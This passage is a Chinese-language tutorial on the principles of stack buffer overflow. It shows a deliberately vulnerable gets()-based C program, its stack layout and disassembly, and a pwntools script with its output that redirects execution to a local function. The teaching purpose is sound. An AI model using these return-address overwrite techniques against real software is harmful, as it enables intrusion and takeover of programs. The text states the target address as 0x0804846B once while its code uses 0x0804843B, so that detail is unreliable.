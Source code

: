 栈溢出原理
==========

介绍
----

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞(比如说，还有向堆中写，向bss段写)。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

-  程序必须向栈上写入数据。
-  写入的数据大小没有被良好地控制。

基本示例
--------

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，\ **当然需要确保这个地址的代码可以执行**\ 。下面，我们举一个简单的例子：

.. code:: c

    ##include <stdio.h>
    ##include <string.h>
    void success() { puts("You Hava already controlled it."); }
    void vulnerable() {
      char s[12];
      gets(s);
      puts(s);
      return;
    }
    int main(int argc, char **argv) {
      vulnerable();
      return 0;
    }

这个程序的主要目的读取一个字符串，并将其输出。\ **我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

.. code:: shell

    ➜  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
    stack_example.c: In function ‘vulnerable’:
    stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
       gets(s);
       ^
    /tmp/ccPU8rRA.o：在函数‘vulnerable’中：
    stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.

可以看出gets本身是一个危险函数。而它因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易可以导致栈溢出，

    历史上，\ **莫里斯蠕虫**\ 第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，\ ``-m32`` 指的是生成32位程序； ``-fno-stack-protector``
指的是不开启堆栈溢出保护，即不生成canary。此外，该程序并没有开启ASLR保护。这是为了更加方便地介绍栈溢出的基本利用方式。之后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

.. code:: c

    int vulnerable()
    {
      char s; // [sp+4h] [bp-14h]@1

      gets(&s);
      return puts(&s);
    }

该字符串距离ebp的长度为0x14，那么相应的栈结构为

.. code:: text

                                               +-----------------+
                                               |     retaddr     |
                                               +-----------------+
                                               |     saved ebp   |
                                        ebp--->+-----------------+
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                  s,ebp-0x14-->+-----------------+

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

.. code:: asm

    .text:0804843B success         proc near
    .text:0804843B                 push    ebp
    .text:0804843C                 mov     ebp, esp
    .text:0804843E                 sub     esp, 8
    .text:08048441                 sub     esp, 0Ch
    .text:08048444                 push    offset s        ; "You Hava already controlled it."
    .text:08048449                 call    _puts
    .text:0804844E                 add     esp, 10h
    .text:08048451                 nop
    .text:08048452                 leave
    .text:08048453                 retn
    .text:08048453 success         endp

那么如果我们读取的字符串为

::

    0x14*'a'+'bbbb'+success_addr

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success\_addr，即，此时的栈结构为

.. code:: text

                                               +-----------------+
                                               |    0x0804843B   |
                                               +-----------------+
                                               |       bbbb      |
                                        ebp--->+-----------------+
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                  s,ebp-0x14-->+-----------------+

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

.. code:: text

    \x3b\x84\x04\x08

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候，x等也算一个单独的字符。。所以我们需要想办法将\\\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

.. code:: python

    ##coding=utf8
    from pwn import *
    ## 构造与程序交互的对象
    sh = process('./stack_example')
    success_addr = 0x0804843b
    ## 构造payload
    payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
    print p32(success_addr)
    ## 向程序发送字符串
    sh.sendline(payload)
    ## 将代码交互转换为手工交互
    sh.interactive()

执行一波代码，可以得到

.. code:: shell

    ➜  stack-example python exp.py
    [+] Starting local process './stack_example': pid 61936
    ;\x84\x0
    [*] Switching to interactive mode
    aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
    You Hava already controlled it.
    [*] Got EOF while reading in interactive
    $ 
    [*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
    [*] Got EOF while sending in interactive

可以看到我们确实已经执行success函数。

小总结
------

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

寻找危险函数
~~~~~~~~~~~~

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

-  输入
-  gets，直接读取一行，忽略\\\x00
-  scanf
-  vscanf
-  输出
-  sprintf
-  字符串
-  strcpy，字符串复制，遇到\\\x00停止
-  strcat，字符串拼接，遇到\\\x00停止
-  bcopy

确定填充长度
~~~~~~~~~~~~

这一部分主要是计算\ **我们所要操作的地址与我们所要覆盖的地址的距离**\ 。常见的操作方法就是打开IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

-  相对于栈基地址的的索引
-  相对应栈顶指针的索引
-  直接地址索引

其中相对于栈基地址的索引，可以直接通过查看EBP相对偏移获得；相对于栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种问题。通过绝对地址索引的，就相当于直接给定了地址。一般来说，我们会有如下的覆盖需求

-  **覆盖函数返回地址**\ ，这时候就是直接看EBP即可。
-  **覆盖栈上某个变量的内容**\ ，这时候就需要更加精细的计算了。
-  **覆盖bss段某个变量的内容**\ 。
-  等等

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。

**参考阅读**

`stack buffer overflow <https://en.wikipedia.org/wiki/Stack_buffer_overflow>`__

http://bobao.360.cn/learning/detail/3694.html
